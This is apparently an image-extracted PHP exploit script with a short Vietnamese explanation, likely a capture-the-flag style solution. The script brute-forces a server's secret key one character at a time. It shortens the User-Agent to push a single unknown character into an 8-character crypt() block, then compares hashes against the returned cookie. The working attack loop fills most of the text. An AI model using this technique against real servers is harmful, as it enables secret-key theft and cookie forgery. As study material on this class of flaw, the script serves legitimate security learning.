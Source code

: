 ```php
        return null;
    }


    // Start brute-force process
    $found_text = "";
    while (true) {
        echo "\nCurrent known part: {$found_text}\n";

        // Get new secure_cookie for the current prefix
        $secure_cookie = get_secure_cookie($user_agent);
        $user_agent = substr($user_agent, 1);
        if (!$secure_cookie) {
            die("❌ Failed to retrieve secure_cookie!\n");
        }

        echo "✅ Retrieved (Decoded) secure_cookie: $secure_cookie\n";

        // Extract salt
        $salt = substr($secure_cookie, 0, 2);

        // Brute-force the next character
        $found_char = null;
        foreach (str_split($charset) as $char) {
            $test_string_temp = substr($test_string, 1) . $char;
        print($test_string_temp . "\n");
            
            $hashed_test = crypt($test_string_temp, $salt);
            if (str_contains($secure_cookie, $hashed_test)) {
                echo "✅ Found character: $char\n";
                $found_text .= $char;
                $test_string = $test_string_temp;
                echo $test_string . "\n";
                echo $hashed_test . "\n";
                break;
            }
        }
    }

    ?>
```

Đoạn code trên là một kịch bản tấn công tự động để dò tìm khóa bí mật của server, từng ký tự một.

Nó hoạt động bằng cách:

- Lợi dụng lỗ hổng: Nó biết server kiểm tra cookie theo từng "đoạn" 8 ký tự riêng lẻ.

- Cô lập mục tiêu: Nó khéo léo thay đổi độ dài User-Agent để đẩy đúng một ký tự chưa biết của khóa bí mật vào một "đoạn" 8 ký tự.

- Dò tìm và so sánh: Nó thử mọi ký tự có thể (a, b, c...) cho vị trí chưa biết đó, băm (hash) chúng, rồi so sánh với cookie mà server trả về. Nếu kết quả băm khớp, nó đã tìm ra đúng ký tự đó.
